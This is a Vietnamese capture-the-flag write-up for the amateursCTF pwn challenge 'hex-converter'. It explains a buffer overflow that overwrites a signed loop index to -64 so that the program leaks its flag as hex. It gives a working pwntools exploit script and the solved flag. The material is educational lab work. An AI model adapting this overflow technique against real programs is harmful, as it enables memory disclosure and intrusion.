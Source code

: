 # HEX-CONVERTER

## Overview

![img](/amateursCTF/Pwn/hex-converter/assets/overview.png)

- Bài cho chúng ta 3 file, trong đó có source code.
</br>![img](/amateursCTF/Pwn/hex-converter/assets/source.png)

- Chuơng trình khởi tạo biến `i` kiểu `int` bằng 0, sau đó  cho nhập input vào biến `char name[16]` (dính buffer overflow), sau đó đọc nội dung của `flag.txt` vào biến `char flag[64]`, tiếp theo là vào vòng lặp while chạy i từ 0 -> 16 thực hiện in ra name[i] ở dạng 1 byte hex.

 

## Idea

- Sử dụng IDA để disasm, ta thấy rằng là vùng nhớ của `flag` trên stack nằm ở bên trên vùng nhớ của `input` ta nhập vào, do đó ta sẽ ko thể ghi đè để nối chuỗi được.
</br>![img](/amateursCTF/Pwn/hex-converter/assets/disasm.png)

- Tuy nhiên ở bên dưới ta có vòng lặp while sẽ in ra kí tự trên vùng nhớ tại chỉ số `i` ở dạng 1 byte hex, để ý thì biến i sử dụng kiểu `int` thay vì `unsigned int` hơn nữa cũng không có kiểm tra xem nó có âm hay không, nên ta có thể ghi đè i thành `-64` rồi sau đó vòng lặp sẽ đọc biến i từ `name[-64]` đến `name[15]`  (name[-64] = flag[0]).

## Script

```python
from pwn import *

p = remote("amt.rs", 31630)

gad = 0x000000000040116d
main = 0x4011c7
main2 = 0x40118A
addr  = 0x405320
addr2  = 0x405340

#0xffffffc0 = -64 (signed int)

p.recvline()
payload = b"a"*0x1c + p32(0xffffffc0) 
p.sendline(payload)
s = p.recvline().strip()
flag = bytes.fromhex(s.decode())

print(flag.decode("ASCII"))

p.interactive()
```

## Result

![img](/amateursCTF/Pwn/hex-converter/assets/result.png)

>### Flag: amateursCTF{wait_this_wasnt_supposed_to_be_printed_76723}